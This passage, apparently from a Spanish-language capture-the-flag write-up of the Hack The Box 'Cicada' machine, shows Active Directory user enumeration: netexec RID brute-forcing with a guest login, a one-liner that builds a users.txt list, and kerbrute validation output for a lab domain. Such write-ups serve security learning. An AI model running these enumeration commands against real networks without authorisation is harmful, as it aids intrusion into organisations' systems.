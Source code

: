 ```console
SMB         10.129.69.107   445    CICADA-DC        572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.69.107   445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)
SMB         10.129.69.107   445    CICADA-DC        1101: CICADA\DnsAdmins (SidTypeAlias)
SMB         10.129.69.107   445    CICADA-DC        1102: CICADA\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.69.107   445    CICADA-DC        1103: CICADA\Groups (SidTypeGroup)
SMB         10.129.69.107   445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.129.69.107   445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.129.69.107   445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.129.69.107   445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.129.69.107   445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB         10.129.69.107   445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```

Y conseguimos una lista de usuarios.

Podemos hacer un simple one-liner para quedarnos con los usuarios y exportarlos a un fichero `users.txt`
```console
$ nxc smb 10.129.69.107 -u 'guest' -p '' --rid-brute 5000 | grep SidTypeUser | awk '{print $6}' | cut -d'\' -f2 >> users.txt
```

Y aquí tenemos nuestra lista de usuarios. 

> [!NOTE]
> El usuario `support` lo he añadido yo manualmente.

```console
$ cat users.txt 
support
Administrator
Guest
krbtgt
CICADA-DC$
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
```

Ahora podemos confirmar que estos usuarios son válidos con `kerbrute`
```console
$ /opt/kerbrute userenum -d cicada.htb --dc CICADA-DC.cicada.htb users.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 09/30/24 - Ronnie Flathers @ropnop

2024/09/30 19:02:05 >  Using KDC(s):
2024/09/30 19:02:05 >   CICADA-DC.cicada.htb:88

2024/09/30 19:02:05 >  [+] VALID USERNAME:       emily.oscars@cicada.htb
2024/09/30 19:02:05 >  [+] VALID USERNAME:       Administrator@cicada.htb
2024/09/30 19:02:05 >  [+] VALID USERNAME:       john.smoulder@cicada.htb
2024/09/30 19:02:05 >  [+] VALID USERNAME:       CICADA-DC$@cicada.htb
2024/09/30 19:02:05 >  [+] VALID USERNAME:       Guest@cicada.htb
2024/09/30 19:02:05 >  [+] VALID USERNAME:       david.orelious@cicada.htb
2024/09/30 19:02:05 >  [+] VALID USERNAME:       sarah.dantelia@cicada.htb
2024/09/30 19:02:05 >  [+] VALID USERNAME:       michael.wrightson@cicada.htb
2024/09/30 19:02:05 >  Done! Tested 10 usernames (8 valid) in 0.107 seconds
```